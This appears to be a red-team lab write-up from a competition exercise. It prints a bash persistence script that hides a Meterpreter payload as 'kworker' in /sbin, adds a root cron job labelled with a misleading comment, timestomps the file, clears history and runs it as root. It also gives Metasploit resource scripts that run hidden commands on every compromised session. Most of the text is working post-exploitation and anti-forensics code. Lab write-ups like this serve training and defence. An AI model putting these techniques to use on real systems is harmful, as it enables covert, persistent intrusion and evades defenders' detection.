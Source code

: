 #### Payload file    
AutoPWN    
```bash
#!/bin/bash
find / -name kworker -exec cp -t /sbin/ {} +
echo " " >> /etc/crontab
echo "#Required for Kryptos Operations" >> /etc/crontab
echo "0,30 * * * * root kworker" >> /etc/crontab
touch -r /sbin/route /sbin/kworker
rm /tmp/AutoPWN
history -c
sleep 60 && kworker
```

This payload will find the Meterpreter payload that I created and copy it to /sbin/.  Then it will write into the crontab the job to run my payload every 30 min.  It also put in a note about how it is required so the blue team might overlook it.  Then it will change the file modification date with the touch command so the exploit will have the same date as route.  This will make it harder to find.  Finally it will clean up the payload file, clear history, and launch the Meterpreter payload as root.

![alt text](https://github.com/vipertooth/Notes/blob/master/Lab1/Pictures/runandexecute.png)
![alt text](https://github.com/vipertooth/Notes/blob/master/Lab1/Pictures/newsessions.png)


## <a name="disruption">Disruption<a/>   

To disrupt the blue team, we changed the background and played music.

To change the background we ran a resource file:   
mass-background-change.rc   
```ruby
<ruby>
framework.sessions.each do |num,session|
print_status("Uploading Image to session #{num}")
session.fs.file.upload_file("/tmp/.Flag.jpg","Flag.jpg")
print_status("Uploaded, Changing Background")
session.sys.process.execute("/bin/bash", "-c 'gsettings set org.gnome.desktop.background picture-uri file:///tmp/.Flag.jpg'", {'Hidden' => true, 'Channelized' => false})
print_status("Successfully changed Background on session #{num}")
end
</ruby>
```

To play music again, we ran a resource file:   
mass-audio-rickroll.rc   
```ruby
<ruby>
framework.sessions.each do |num,session|
print_status("Uploading Image to session #{num}")
session.fs.file.upload_file("/tmp/rick.wav","rick.wav")
print_status("Uploaded")
session.sys.process.execute("/bin/bash", "-c 'amixer set "Master" 100%'", {'Hidden' => true, 'Channelized' => false})
print_status("Set volume to max")
session.sys.process.execute("/bin/bash", "-c 'aplay /tmp/rick.wav'", {'Hidden' => true, 'Channelized' => false})
print_status("Rick Rolling session #{num}")
end
</ruby>
```
